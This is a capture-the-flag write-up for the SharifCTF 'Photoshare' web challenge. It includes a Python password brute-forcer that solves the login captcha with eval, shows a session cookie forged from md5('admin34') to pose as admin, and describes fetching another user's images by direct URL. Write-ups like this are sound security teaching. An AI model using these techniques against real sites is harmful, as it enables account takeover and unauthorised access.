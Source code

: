 # Photoshare (250 PTS)
### Description

    Photoshare is an internet based photo sharing service. Login to this website as admin.
    web: ctf.sharif.edu:8084
    username: jack
    password: Year and month of Jack's birthday.

>Hint:No need for XSS or bypassing the uploader.

Flag: ```SharifCTF{kmvfwmj6sea7get9wggu249ehjc8hmdd}```

### Solution

<p><img src='images/welcome.png' /></p>

Website welcomes us with a login form. Username is known from the description (```jack```), password mask is ```YYYYMM``` (also from the description), secret question is pretty simple. So we need to investigate a html code and write a bruteforcer.

<p><img src='images/html.png' /></p>

I marked fields which should be extracted. I've used Python for writing it.

```python
import re
import requests

def get_hidden(url):
    response = requests.get(url)
    html = response.text
    question = re.search('name="SecQuestion" placeholder="(.*?)"', html)[1]
    answer = eval(question.split('=')[0].replace('x', '*'))
    field = re.search('name="field" value="(\w+)"', html)[1]
    token = re.search('name="_token" value="(\w+)">', html)[1]
    return response.cookies, answer, field, token

def get_passwords():
    for year in range(1900, 2019):
        for month in range(1, 13):
            yield '%04d%02d' % (year, month)
```

Full code you can see in [brute.py](brute.py). Run it and... yeah!
```
Found password for jack: 195408
```

Now we can login as jack.

<p><img src='images/home.png' /></p>

<p><img src='images/upload.png' /></p>

Website has two pages: we can upload a photo with id from 1 to 6 and show it on the showcase.
Look at the urls.

<p><img src='images/images.png' /></p>

It seems that we can insert any username instead of ```jack```, but it causes 403.

<p><img src='images/denied.png' /></p>

Interesting, but we're following Hint and ```not bypassing the uploader```. Look at the cookie called ```session_id``` instead! Yes, it's just an md5 hash which can easily be cracked.

```
session_id=a6da08ce385c95026045150daf37e2f8 = md5(jack34)
```

After some experiments I decided that we can write here hashes of jacks from ```jack1``` to ```jack60```, but it isn't important. Authors asks us to login as ```admin```, so let's do it! Try to set ```md5(admin34)``` and reload the page.

```python
>>> md5(b'admin34').hexdigest()
'06d6d78ec1dd8f97a0475ecfd034c55c'
>>>
```

<p><img src='images/admin.png' /></p>

Oops! Security check. But what if we open images directly from urls? For example image with ```id=3```:

```
http://ctf.sharif.edu:8084/GetPicture/admin/3
```

<p><img src='images/teacher.png' /></p>

Yeah, got it! His name is ```Mr. Tashakkor```. Now we can use it for entering the website.

<p><img src='images/final.png' /></p>
